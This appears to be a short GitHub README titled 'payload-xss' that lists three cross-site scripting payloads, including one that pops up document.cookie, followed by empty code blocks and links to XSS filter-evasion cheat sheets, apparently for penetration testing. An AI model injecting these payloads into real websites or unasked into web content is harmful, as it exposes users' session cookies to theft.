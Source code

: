 # payload-xss

`<svg/onload=alert('XSS')>`

`<BODY ONLOAD=alert('XSS')>`

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

``

``

``

``

``

``

``

``

``

<!-- `` -->


# REFERENCE:
https://xn4k.github.io/pentest/bug%20bounty/ethical%20hacking/XSS-Filter-Evasion-Cheat-Sheet/
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
